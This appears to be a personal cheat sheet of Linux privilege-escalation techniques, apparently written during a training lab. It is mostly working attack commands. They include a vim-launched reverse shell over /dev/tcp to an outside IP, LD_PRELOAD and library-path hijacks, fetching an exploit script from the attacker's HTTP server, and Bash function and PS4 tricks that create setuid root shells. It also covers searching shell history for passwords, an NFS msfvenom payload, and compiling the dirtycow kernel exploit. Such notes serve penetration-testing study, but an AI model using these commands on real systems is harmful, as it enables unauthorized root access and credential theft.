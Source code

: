 # Privesc on linux

IP=10.10.213.223

`openssl passwd new a`
`mkpasswd -m sha512 password`
`vim -c "bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"`

`LD_PRELOAD` -> Loads a shared object before the program is run
`LD_LIBRARY_PATH` -> List of shared directories that are searched for first

```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c 
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```

```
ldd /usr/sbin/apache2
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp apache2
```

find all SUID and SGID executables
`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

python's http server

First I launched a server using:
`python -c http.server 8080` which opens up an http server on port 8080
On the victim machine I then ran (after checking it successfully pinged)
`wget http:/$MY_IP:8080/exploit.sh`

Using `strace` to view how a task uses resources

`strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`

runs an strace on the file and redirects stderr to stdout and uses grep regex to filter out given terms. I redirected this into a new file on the machine as output.txt

Bash versions less than 4.2 you can define function names that appear like paths:
`function /usr/sbin/service { /bin/bash -p; }; export /usr/sbin/service`
run the command asking for `service` or whatever and you now have priviledged access

Cheeky calls for debugging pre-Bash 4.4
`env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2`

Good practice to check history logs for accidental password input
`cat ~/.*history | less`
And then scan through it for passwords

Exploiting NFS
On your machine, login to root
`mkdir -p tmp/nfs`
`mount -o rw,vers=2 <Victim IP>:/tmp tmp/nfs`
`msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o tmp/nfs/shell.elf`
`chmod +xs tmp/nfs/shell.elf`
On the victim machine
`./tmp/shell.elf`

Kernel exploits should be used as a last resort as they may destabilise the system
Check what exploits it is weak to
`perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl`
`gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w`

